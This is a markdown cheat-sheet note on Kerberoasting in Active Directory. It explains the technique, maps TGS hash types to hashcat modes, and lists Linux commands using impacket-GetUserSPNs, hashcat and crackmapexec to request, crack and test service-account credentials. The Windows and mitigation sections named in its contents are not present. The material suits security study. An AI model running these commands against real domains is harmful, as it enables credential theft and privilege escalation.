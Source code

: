 ### Content
- [From Linux](#from-linux)
- [From Windows](#from-windows)
	- [Semi Manual method](#semi-manual-method)
	- [Tool Based methods](#tool-based-methods)
- [Mitigations and Detections](#mitigations-and-detections)
---

> [!Note]
> 
> Kerberoasting is a lateral movement/privilege escalation technique in AD environments.
> - This attack targets [Service Principal Names (SPN)](https://docs.microsoft.com/en-us/windows/win32/ad/service-principal-names) accounts.
> - Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as `NT AUTHORITY\LOCAL SERVICE`.
> - All you need to perform a Kerberoasting attack is an account's cleartext password (or NTLM hash), a shell in the context of a domain user account, or SYSTEM level access on a domain-joined host.
> - Domain accounts running services are often local administrators, if not highly privileged domain accounts.
> - The attack can be performed in multiple ways:
> 	- From a non-domain joined Linux host using valid domain user credentials.
> 	- From a domain-joined Linux host as root after retrieving the keytab file.
> 	- From a domain-joined Windows host authenticated as a domain user.
> 	- From a domain-joined Windows host with a shell in the context of a domain account.
> 	- As SYSTEM on a domain-joined Windows host.
> 	- From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) /netonly.
> 
> The attack: When an attacker obtains a TGS for a service from a KDC, A part of the TGS is encrypted with the NTLM hash of the password of the account which running the service, sometimes these accounts are user made accounts and it's subjected to human error by placing a weak password for the account, So an attacker can find that account's password by brute forcing the TGS.

> [!Important]
> **Decrypting TGS-REP Tickets with `hashcat` :**
> - Hashes that begin with `$krb5tgs$23$*` -> RC4 (type 23) encrypted ticket. -> `hashcat -m 13100`
> - Hashes that begin with `$krb5tgs$18$*` -> AES-256 (type 18) encrypted ticket. `hashcat -m 19700`
> - Hashes that begin with `$krb5tgs$17$*` -> AES-128 (type 17) encrypted ticket. `hashcat -m 19600`

---
## From Linux

Using `impacket-GetUserSPNs`

``` Bash
# Listing SPN Accounts with GetUserSPNs
$ impacket-GetUserSPNs -dc-ip <domain_controler_IP> DOMAIN.LOCAL/ADuser
# Requesting all available TGS tickets
$ impacket-GetUserSPNs -dc-ip <domain_controler_IP> DOMAIN.LOCAL/ADuser -request 
# Requesting a single TGS ticket
$ impacket-GetUserSPNs -dc-ip <domain_controler_IP> DOMAIN.LOCAL/ADuser -request-user sqldev
# Use the (-outputfile <fileName>) flag to write the TGS tickets to a file
# Cracking the Ticket Offline with Hashcat
$ hashcat -m 13100 <file_contains_TGS_ticket/s> /usr/share/wordlists/rockyou.txt
# To test a set of credentials agains a domain
$ crackmapexec smb 172.16.5.5 -u ADuser -p password
```

---